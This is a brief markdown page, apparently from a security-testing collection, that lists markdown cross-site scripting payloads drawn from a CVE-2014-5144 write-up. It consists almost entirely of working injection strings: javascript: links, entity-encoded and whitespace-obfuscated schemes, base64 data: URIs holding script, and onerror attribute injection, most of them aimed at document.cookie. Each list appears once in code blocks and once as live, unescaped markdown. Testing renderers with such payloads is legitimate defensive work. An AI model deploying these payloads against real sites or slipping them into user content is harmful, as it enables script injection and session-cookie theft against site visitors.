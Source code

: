## Testing for vulnerabilities

Taken from https://shubs.io/exploiting-markdown-syntax-and-telescope-persistent-xss-through-markdown-cve-2014-5144/

### Example 1

```markdown
[a](javascript:prompt(document.cookie))
[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
![a](javascript:prompt(document.cookie))\
<javascript:prompt(document.cookie)>  
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>  
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
![a'"`onerror=prompt(document.cookie)](x)\
[citelol]: (javascript:prompt(document.cookie))
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[test](javascript://%0d%0aprompt(1))
[test](javascript://%0d%0aprompt(1);com)
```

[a](javascript:prompt(document.cookie))
[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
![a](javascript:prompt(document.cookie))\
<javascript:prompt(document.cookie)>  
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>  
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
![a'"`onerror=prompt(document.cookie)](x)\
[citelol]: (javascript:prompt(document.cookie))
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[test](javascript://%0d%0aprompt(1))
[test](javascript://%0d%0aprompt(1);com)

### Example 2

```markdown
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
```

[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)